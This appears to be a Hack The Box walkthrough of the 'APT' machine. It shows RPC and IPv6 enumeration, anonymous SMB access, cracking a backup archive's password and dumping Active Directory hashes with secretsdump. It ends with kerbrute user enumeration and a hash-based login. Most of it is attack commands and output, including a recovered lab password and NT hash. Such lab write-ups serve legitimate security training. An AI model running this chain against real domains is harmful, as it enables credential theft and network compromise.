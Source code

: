### RPC - TCP 135
* https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/service-overview-and-network-port-requirements
* https://0xdf.gitlab.io/2021/04/10/htb-apt.html#rpc---tcp-135

RPC or Remote Procedure Call, is an IPC (InterProcess Communication) mechanism which allows remote invocation of functions. This can be done locally on the server or via network clients. Distributed Component Object Model (DCOM, TCP 135) allows applications to expose objects and RPC interfaces to be invoked via RPC.
A list of available interfaces provided by DCOM can be enumerated using `impacket rpcmap.py` since `rpcclient` doesn’t do much TCP 445 or TCP 139.

```bash
impacket-rpcmap -h

Lookups listening MSRPC interfaces.

positional arguments:
  stringbinding         String binding to connect to MSRPC interface, for example:
                        ncacn_ip_tcp:192.168.0.1[135]
                        ncacn_np:192.168.0.1[\pipe\spoolss]
                        ncacn_http:192.168.0.1[593]
                        ncacn_http:[6001,RpcProxy=exchange.contoso.com:443]
                        ncacn_http:localhost[3388,RpcProxy=rds.contoso:443]
                        ```

```bash
impacket-rpcmap ncacn_ip_tcp:$IP

impacket-rpcmap ncacn_ip_tcp:$IP | grep -i 'DCOM' -A2
Protocol: [MS-DCOM]: Distributed Component Object Model (DCOM) Remote
Provider: rpcss.dll
UUID: 000001A0-0000-0000-C000-000000000046 v0.0
--
Protocol: [MS-DCOM]: Distributed Component Object Model (DCOM) Remote
Provider: rpcss.dll
UUID: 4D9F4AB8-7D1C-11CF-861E-0020AF6E7C57 v0.0
--
Protocol: [MS-DCOM]: Distributed Component Object Model (DCOM) Remote
Provider: rpcss.dll
UUID: 99FCFEC4-5260-101B-BBCB-00AA0021347A v0.0
```


* https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/c25391af-f59e-40da-885e-cc84076673e4

This scan provided a bunch of RPC endpoints with their UUIDs, the MS-DCOM ones (Google the UUID will get it). The one shown above is the RPC interface UUID for IObjectExporter, or the IOXIDResolver. This is know that is used for the Potato exploits. 

There’s a POC script at the bottom (I added () around the print statement so it would work with modern Python), which I’ll grab and run:

### Ipv6 and then TCP 135 again
* https://book.hacktricks.xyz/network-services-pentesting/135-pentesting-msrpc#identifying-ip-addresses
* https://github.com/A1vinSmith/IOXIDResolver

```bash
python serveralive.py
Address: apt
Address: 10.10.10.213 <- VIP+ not working, have to go with public(not private just for you) ip address
Address: dead:beef::b885:d62a:d679:573f
```

```bash
nmap -6 -p- --min-rate 10000 -oA scans/nmap-alltcp-ipv6 dead:beef::b885:d62a:d679:573f

PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49673/tcp open  unknown
49691/tcp open  unknown

smbclient -L $IP_V6 --no-pass
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        backup          Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
dead:beef::b885:d62a:d679:573f is an IPv6 address -- no workgroup available

smbclient \\\\$IP_V6\\backup --no-pass
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Sep 24 19:30:52 2020
  ..                                  D        0  Thu Sep 24 19:30:52 2020
  backup.zip                          A 10650961  Thu Sep 24 19:30:32 2020

                5114623 blocks of size 4096. 2633130 blocks available
smb: \> get backup.zip
getting file \backup.zip of size 10650961 as backup.zip (1685.0 KiloBytes/sec) (average 1685.0 KiloBytes/sec)

unzip -l backup.zip
Archive:  backup.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  2020-09-23 19:40   Active Directory/
 50331648  2020-09-23 19:38   Active Directory/ntds.dit
    16384  2020-09-23 19:38   Active Directory/ntds.jfm
        0  2020-09-23 19:40   registry/
   262144  2020-09-23 19:22   registry/SECURITY
 12582912  2020-09-23 19:22   registry/SYSTEM
---------                     -------
 63193088                     6 files

john --wordlist=/usr/share/wordlists/rockyou.txt backup.zip.hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 5 OpenMP threads
iloveyousomuch   (backup.zip)

# save it to a file, and grep to get just the hashes, and there are 2000:
❯ impacket-secretsdump -ntds backup/Active\ Directory/ntds.dit -system backup/registry/SYSTEM LOCAL > backup_ad_secretdump
❯ grep ':::' backup_ad_secretdump | wc -l

# tried taking the admin hash and logging in with crackmapexec and psexc.py, and both returned invalid credentials
```

##### Check Users
* https://0xdf.gitlab.io/2021/04/10/htb-apt.html#check-users

Offical writeup from HTB is also good this time.

With 2000 users, I need a way to check how much of this is valid. Because Kerberos is available on IPv6 (TCP 88), I can use Kerbrute to check the users. I’ll get a list of just the users. 

Also, Getting `kerbrute` to connect to an IPv6 was a bit tricky. Just putting the address in as the DC didn’t work. Eventually I got it working using the hosts file to define the IPv6 as apt.htb. My hosts file will show both apt.htb and htb.local as this IPv6.

A domain (-d) or a domain controller (--dc) must be specified. If a Domain Controller is not given the KDC will be looked up via DNS. But for IPV6, it needs both

```bash
grep ':::' backup_ad_secretdump | awk -F: '{print $1}' > users

~/kerbrute/kerbrute-arm64 userenum -d htb.local --dc apt.htb users

2023/10/30 12:57:24 >  Using KDC(s):
2023/10/30 12:57:24 >   apt.htb:88

2023/10/30 12:57:29 >  [+] VALID USERNAME:       Administrator@htb.local
2023/10/30 12:57:29 >  [+] VALID USERNAME:       APT$@htb.local
2023/10/30 13:01:41 >  [+] VALID USERNAME:       henry.vinson@htb.local
```

Only find one non-default username i.e. henry.vinson

##### Bruteuser by using a forked kerbrute
* https://github.com/ropnop/kerbrute/pull/67
```bash
~/kerbrute/kerbrute-arm64 bruteuser -d htb.local --dc apt.htb hash.list henry.vinson --etype rc4-hmac

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 10/31/23 - Ronnie Flathers @ropnop

2023/10/31 17:01:27 >  Using KDC(s):
2023/10/31 17:01:27 >   apt.htb:88

2023/10/31 17:01:33 >  [+] VALID LOGIN:  henry.vinson@htb.local:e53d87d42adaa3ca32bdb34a876cbffb
2023/10/31 17:01:38 >  Done! Tested 2 logins (1 successes) in 10.929 seconds
```